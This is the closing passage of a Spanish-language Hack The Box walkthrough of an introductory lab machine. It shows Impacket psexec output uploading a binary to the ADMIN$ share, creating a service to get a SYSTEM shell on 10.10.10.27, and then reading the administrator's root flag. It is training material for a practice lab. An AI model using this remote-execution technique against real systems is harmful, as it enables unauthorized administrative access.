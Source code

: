```bash
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file jcWXyjRG.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service UFMW on 10.10.10.27.....
[*] Starting service UFMW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Verificamos nuestros permisos:

```bash
C:\Windows\system32>whoami
nt authority\system
```

En efecto, tenemso permisos de administrador, y ahora podemos ir al escritorio
del administrador y extraer la última bandera.

```bash
C:\Windows\system32>cd C:\Users\Administrator\Desktop
```

```bash
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is CE13-2325

 Directory of C:\Users\Administrator\Desktop

01/20/2020  05:42 AM    <DIR>          .
01/20/2020  05:42 AM    <DIR>          ..
02/25/2020  06:36 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  33,818,599,424 bytes free
```

```bash
C:\Users\Administrator\Desktop>type root.txt
```

Listo! Tenemos las dos banderas de esta máquina!

##	Fin

Bueno, con eso hemos concluido la revisión del primer walk-through de las
máquinas de introducción de `HTB`. Este texto fue un poco más extenso ya que se
fueron expllicando paso a paso cada comando, pero conforme avancemos en las
herramientas y comandos obviaremos los que se hayan explicado previamente.

Espero haya sido de tu agrado y utilidad este texto, y si vas comenzando en
estos temas de seguridad, [recuerda no rendirte](https://www.youtube.com/watch?v=dQw4w9WgXcQ)
y seguir aprendiendo poco a poco.

Nos vemos en el siguiente texto. Ciao!

`#HappyHacking`
